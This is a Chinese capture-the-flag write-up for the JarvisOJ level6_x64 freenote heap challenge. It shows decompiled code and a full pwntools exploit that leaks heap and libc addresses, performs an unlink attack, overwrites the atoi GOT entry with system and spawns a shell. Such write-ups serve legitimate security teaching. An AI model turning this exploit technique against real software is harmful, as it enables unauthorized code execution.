

# JarvisOJ level6_x64

### 0x1 分析

看一下安全性：



具体函数就不分析了。跟level6的x86版本思路是一样的。主要是一些参数有些变化。

挂出`main`函数，来对比一下改变。

`main`:

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  setbuf();
  preload();
  while ( 1 )
  {
    switch ( menu() )
    {
      case 1:
        List();
        break;
      case 2:
        new();
        break;
      case 3:
        edit();
        break;
      case 4:
        delete();
        break;
      case 5:
        puts("Bye");
        return 0LL;
      default:
        puts("Invalid!");
        break;
    }
  }
}
```


`preload`里是有些变化的，`chunk0`的大小变成了`0x1810`：

```c
_QWORD *preload()
{
  _QWORD *v0; // rax
  _QWORD *result; // rax
  signed int i; // [rsp+Ch] [rbp-4h]

  v0 = malloc(0x1810uLL);                       // chunk0
  noteList = (__int64)v0;
  *v0 = 256LL;
  result = (_QWORD *)noteList;
  *(_QWORD *)(noteList + 8) = 0LL;
  for ( i = 0; i <= 255; ++i )
  {
    *(_QWORD *)(noteList + 24LL * i + 16) = 0LL;
    *(_QWORD *)(noteList + 24LL * i + 24) = 0LL;
    result = (_QWORD *)(noteList + 24LL * i + 32);
    *result = 0LL;
  }
  return result;
}
```

其他的就没什么变化的。

但是有一点要注意：在申请堆块的时候有一个对齐，申请的块大小是`0x80`、`0x100`、……

还有一点要注意。就是在Unlink之后修改GOT的这里，要注意这两次的`payload`长度需要一样长，否则修改GOT的时候调用`edit`函数的时候，由于长度不同会调用`realloc`函数，造成程序崩溃。

### 0x2 EXP

```python
#! /usr/bin/python
#-*- coding: utf-8 -*-
from pwn import *

context.log_level = 'debug' 
context.terminal = ['tmux', 'splitw', '-h']
# p = remote("pwn2.jarvisoj.com", 9886)
p = process('./freenote_x64')
elf = ELF("./freenote_x64")
# libc = ELF("./libc-2.19.so")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

memalign_hook_libc = libc.symbols["__memalign_hook"]
system_libc = libc.symbols["system"]

def debug(p, cmd):
  '''cmd = 'b *%d' %(proc_base+breakaddr)'''
  gdb.attach(p, cmd)
  pause()

def create(p, content):
  p.sendlineafter("Your choice: ", "2")
  p.sendlineafter("Length of new note: ", str(len(content)))
  p.sendafter("Enter your note: ", content)

def list(p):
  p.sendlineafter("Your choice: ", "1")

def edit(p, idx, content):
  p.sendlineafter("Your choice: ", "3")
  p.sendlineafter("Note number: ", str(idx))
  p.sendlineafter("Length of note: ", str(len(content)))
  p.sendafter("Enter your note:", content)

def delete(p, idx):
  p.sendlineafter("Your choice: ", "4")  
  p.sendlineafter("Note number: ", str(idx))

#leak heapbase
create(p, 'A' * 0x80)         #idx:0
create(p, 'A' * 0x80)         #idx:1
create(p, 'A' * 0x80)         #idx:2
create(p, 'A' * 0x80)         #idx:3
create(p, 'A' * 0x80)         #idx:4
# debug(p, 'b*0x080484D0')
delete(p, 3)
delete(p, 1)

payload = 'A'*0x80 + 'a'*0x10
edit(p, 0, payload)
list(p)
# debug(p, 'b *0x400998')
p.recvuntil('a' * 0x10)
heap_base = u64(p.recvuntil("\x0a", drop = True).ljust(8, '\x00')) - 0x1810 - 0x90 * 3 - 0x10
chunk0_addr = heap_base + 0x30
chunk1_addr = heap_base + 0x10 + 0x1810 + 0x90 * 1 + 0x10

payload = p64(0x90) + p64(0x80) + p64(chunk0_addr - 0x18) + p64(chunk0_addr - 0x10)
payload = payload + 'a' * (0x80 - 0x8 * 4) + p64(0x80) + p64(0x90)
payload = payload.ljust(0x100, 'p')
pause()
edit(p, 0, payload)
delete(p, 1)

payload = p64(2) + p64(1) + p64(0x100) + p64(chunk0_addr - 0x18)
payload = payload + p64(1) + p64(0x8) + p64(elf.got["atoi"])
payload = payload.ljust(0x100, '\x00')
edit(p, 0, payload)
list(p)
p.recvuntil("0. ")
p.recvuntil("1. ")
libc_Base = u64(p.recvuntil("\x0a", drop = True).ljust(8, '\x00')) - libc.symbols["atoi"]
system_addr = libc_Base + system_libc

edit(p, 1, p64(system_addr))
p.sendlineafter("Your choice: ", "/bin/sh\x00") 

p.interactive()

```

